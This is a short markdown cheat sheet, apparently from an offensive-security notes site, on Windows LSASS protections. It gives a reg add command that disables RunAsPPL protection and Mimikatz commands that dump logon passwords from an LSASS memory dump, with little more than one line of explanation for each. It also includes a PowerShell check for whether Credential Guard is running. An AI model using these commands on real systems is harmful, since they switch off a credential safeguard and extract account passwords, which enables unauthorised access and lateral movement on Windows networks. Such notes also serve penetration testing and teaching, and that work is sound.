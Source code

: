 ```yaml
---
title: LSASS
category: windows
weight: -1
---
```


## LSASS Protection

### RunAsPPL

- **Registry Path:**  
`RunAsPPL:00000008` -> LSASS process is protected.
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 
    ```
- **Bupassing RunAsPPL Protection**
1. Disable RunAsPPL protection by modifying the registry value.
    ```
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 0 /f
    ```
2. Restart the system or the LSASS process for changes to take effect.

---

### Credential Guard
```powershell
if ((Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard).SecurityServicesRunning -contains 1) {"Credential Guard running"}else {"Credential Guard is not running"}
```

---

## LSASS Dump

### Mimikatz
```
mimikatz # privilege::debug
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```


